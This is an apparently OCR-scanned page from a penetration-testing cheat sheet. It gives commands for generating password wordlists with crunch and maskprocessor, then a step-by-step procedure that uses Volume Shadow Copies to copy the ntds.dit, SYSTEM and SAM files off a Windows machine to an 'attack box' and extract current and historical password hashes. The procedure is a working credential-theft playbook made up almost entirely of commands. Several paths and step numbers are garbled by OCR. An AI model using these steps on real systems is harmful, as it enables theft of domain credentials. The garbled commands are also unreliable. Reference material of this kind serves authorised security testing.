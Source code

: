 GENERATE WORDLIST BASED OFF SINGLE WORD
# Add lower(@), upper(,), number(%), and symbol(^) to the end of the word
crunch 12 12 -t baseword@,%	wordlist.txt

# Use custom special character set and add 2 numbers then special character
maskprocessor -custom-charset1=\!\@\#\$ baseword?d?d?1	wordlist.txt


VSSOWN [2]

1. Download: http://ptscripts.googlecode.com/svn/trunk/windows/vssown.vbs
2. Create a new Shadow Copy
	a. cscript vssown.vbs /start (optional)
	b. cscript vssown.vbs /create
3. Pull the following files from a shadow copy:
	a. copy
	\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
	b. copy
	\\?\GLOBALROOT\Device\HarddiskVolumeShadowCop/[X]\windows\system32\config\SYSTEM .
	c. copy
	\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ system32\config\SAM .
4. Copy files to attack box.
5. Download tools: http://www ntdsxtract.com/downloads/ntds_dump_hash.zip
6. Configure and Make source code for libesedb from the extracted package
	a. cd libesedb
	b. chmod +x configure
	c. ./configure && make
Use esedbdumphash to extract the datatable from ntds.dit.
	a. cd esedbtools
	b. ./esedbdumphash ../../ntds.dit
8. 8a.Use dsdump.py to dump hashes from datatable using bootkey from SYSTEM hive
	a. cd ../../creddump/
	b. python ./dsdump.py ../SYSTEM
	../libesedb/esedbtools/ntds.dit.export/datatable
9. 8b.Use bkhive and samdump2 to dump hashes from SAM using bootkey from SYSTEM hive.
	a. bkhive SYSTEM key.txt
	b. samdump2 SAM key.txt
10 Dump historical hashes
	a. python ./dsdumphistory.py ../system
	../libesedb/esedbtools/ntds.dit.export/datatable


FILE HASHING


HASH LENGTHS

MD5	16 bytes
SHA-1	20 bytes
SHA-256 32 bytes 
SHA-512 64 bytes

